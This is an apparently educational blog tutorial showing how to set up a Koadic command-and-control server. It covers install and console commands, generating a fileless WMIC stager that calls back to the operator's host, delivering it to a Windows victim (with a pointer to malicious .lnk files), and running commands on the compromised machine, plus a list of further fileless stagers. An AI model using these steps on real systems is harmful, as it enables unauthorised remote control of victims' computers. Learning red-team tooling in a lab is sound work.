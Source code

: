 ```yaml
---
title: "Create Command and Control Server with Koadic"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey readers. Have you wonder how attacker compromised user and do the "bad things" from their Command and Control (C2) server to its zombies (victims) ?

In this tutorial, let us be that "attacker" and learn how they do this type of attack using a tool named [Koadic](https://github.com/zerosum0x0/koadic).

Disclaimer:
This is for research and education purpose only. Do with your own risk. Dosa guys pedajal orang.

Back to the topic. From their repo, they explained...

"Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled)."

## Installation

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```
## Generate payload
First, we run koadic and use module named wmic.
```
use stager/js/wmic
set srvhost 192.168.83.128
run
```
Note:
Replace the IP with your own.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/1.png)
## Deliver payload

Copy the fileless `wmic` command and deliver to your target. In case here, I'm just copy and paste into my targeted virtual machine (Win7). This serves payloads in memory using WMIC. So, we can consider this as fileless malware cause it serves in memory. 

For example of delivering payload, you can do technique like [malicious .lnk](https://fareedfauzi.github.io/blog-post/Create-malicious-lnk/) to compromise user.

So, after press enter in cmd. The payload should be run.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/2.PNG)

Switch back to our kali machine, focus back to our terminal.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/3.PNG)

You will notice that our target machine now will become our first zombie.
If we issue command `zombies 0`, it will give information about the compromised user (our first zombie).

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/4.PNG)

## Execute Command using Koadic

Using module `exec_cmd`, we specify the command that we want to execute. In this case, I give `calc.exe` as command that I want to execute.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/5.PNG)
```
use implant/manage/exec_cmd
set cmd calc.exe
set zombie 0
run
```
And calc.exe will be executed. Hooray 🎉.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/6.PNG)

We're now "king" for our zombies.

Let's try with other command line program.

```
set cmd ipconfig
set zombie 0
run
```

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/7.PNG)
## Last but not least
For stagers, instead of using wmic as our fileless malware, this tool have other option like mshta and etc.

Module | Description | Malware Category
--------|------------|-----
stager/js/mshta | serves payloads in memory using MSHTA.exe HTML Applications | File-less
stager/js/regsvr | serves payloads in memory using regsvr32.exe COM+ scriptlets | File-less
stager/js/rundll32_js | serves payloads in memory using rundll32.exe | File- less
stager/js/disk | serves payloads using files on disk | File-based
stager/js/wmic | serves payloads in memory using WMIC | File-less
stager/js/bitsadmin | transfers a .wsf payload containing JScript over a Bitsadmin job and executes it | File-less

You can read more in [Koadic repository](https://github.com/zerosum0x0/koadic) readme[.]md .

That's all. Thanks for reading!
